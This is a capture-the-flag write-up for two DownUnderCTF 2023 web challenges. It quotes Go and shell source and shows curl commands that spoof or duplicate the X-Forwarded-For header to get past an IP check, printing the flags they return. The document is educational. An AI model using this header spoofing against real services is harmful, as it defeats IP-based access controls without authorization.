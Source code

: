 ```yaml
---
title: DownUnderCTF 2023 - Proxed
date: Sun Sep  3 11:58:44 AM +04 2023
categories: [Writeup]
tags: [ctf,downunderctf,downunderctf2023,web]
---
```


## proxed

### Description

Cool haxxorz only

Author: Jordan Bertasso

Application: [http://proxed.duc.tf:30019](http://proxed.duc.tf:30019/)<br>
Downloads: [proxed.tar.gz](https://play.duc.tf/files/362ecec7ddfd885eb7e0a6e48fd1af4e/proxed.tar.gz?token=eyJ1c2VyX2lkIjoyNDI4LCJ0ZWFtX2lkIjoxMjc1LCJmaWxlX2lkIjo5OX0.ZPQ4Ew.FbSAa9wf5MxWt31vzZD3GZeDbEU)

### Analysis

Since there's no frontend we should look inside source code. Main function has only this piece of code which handles request.

```go
http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
	xff := r.Header.Values("X-Forwarded-For")

	ip := strings.Split(r.RemoteAddr, ":")[0]

	if xff != nil {
		ips := strings.Split(xff[len(xff)-1], ", ")
		ip = ips[len(ips)-1]
		ip = strings.TrimSpace(ip)
	}

	if ip != "31.33.33.7" {
		message := fmt.Sprintf("untrusted IP: %s", ip)
		http.Error(w, message, http.StatusForbidden)
		return
	} else {
		w.Write([]byte(os.Getenv("FLAG")))
	}
})
```


This piece of block checks if our IP matches `31.33.33.7`. This challenge should be impossible due to `r.RemoteAddr` being set on TCP/IP level and not http, but since `X-Forwarded-For` header replaces the IP, it becomes possible.

_The **[X-Forwarded-For](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For)** (XFF) request header is a de-facto standard header for identifying the originating IP address of a client connecting to a web server through a proxy server._

### Solution

Make a request to server with `X-Forwarded-For` header set to desired IP by application.

```powershell
➜ curl -H 'X-Forwarded-For: 31.33.33.7' http://proxed.duc.tf:30019/
DUCTF{17_533m5_w3_f0rg07_70_pr0x}
```

> Flag: DUCTF{17_533m5_w3_f0rg07_70_pr0x}
{: .prompt-tip }

## actually-proxed

### Description

Still cool haxxorz only!!! Except this time I added in a reverse proxy for extra security. Nginx and the standard library proxy are waaaayyy too slow (amateurs). So I wrote my own :D

Author: Jordan Bertasso

Application: [http://actually.proxed.duc.tf:30009](http://actually.proxed.duc.tf:30009/)<br>
Downloads: [actually-proxed.tar.gz](https://play.duc.tf/files/d0933ec4310c85fba1eee53430ec4752/actually-proxed.tar.gz?token=eyJ1c2VyX2lkIjoyNDI4LCJ0ZWFtX2lkIjoxMjc1LCJmaWxlX2lkIjo4Mn0.ZPQ6Lw.WOWUDSJzSeiMDPdUUHNScq5ruL8)

### Analysis

 `docker-entrypoint.sh`:
```bash
#!/bin/sh
# https://docs.docker.com/config/containers/multi-service_container/

cd /app/out

# Start the proxy
./proxy &

# Start the web server
./secret_server &

# Wait for any process to exit
wait -n

# Exit with status of process that exited first
exit $?
```

From entrypoint we know that request goes through proxy and then server. `Request -> Proxy -> Server`

`secret_server` code is almost the same, but this time `X-Forwarded-For` is replaced by proxy.

Inside `parseRequest`, Lines 100-105:

```go
	for i, v := range headers {
		if strings.ToLower(v[0]) == "x-forwarded-for" {
			headers[i][1] = fmt.Sprintf("%s, %s", v[1], clientIP)
			break
		}
	}
```

If we send a request to server with `X-Forwarded-For` header the proxy will change it with our real ip (from TCP layer), but if you have noticed it has one critical bug -> `break`. The header is only checked once and http doesnt care if you supply 1 or 100 headers its going to use the last one.

### Solution

Send `X-Forwarded-For` header twice.

```powershell
➜ curl -H 'X-Forwarded-For: 31.33.33.7' -H 'X-Forwarded-For: 31.33.33.7' http://actually.proxed.duc.tf:30009
DUCTF{y0ur_c0d3_15_n07_b3773r_7h4n_7h3_574nd4rd_l1b}
```

> Flag: DUCTF{y0ur_c0d3_15_n07_b3773r_7h4n_7h3_574nd4rd_l1b}
{: .prompt-tip }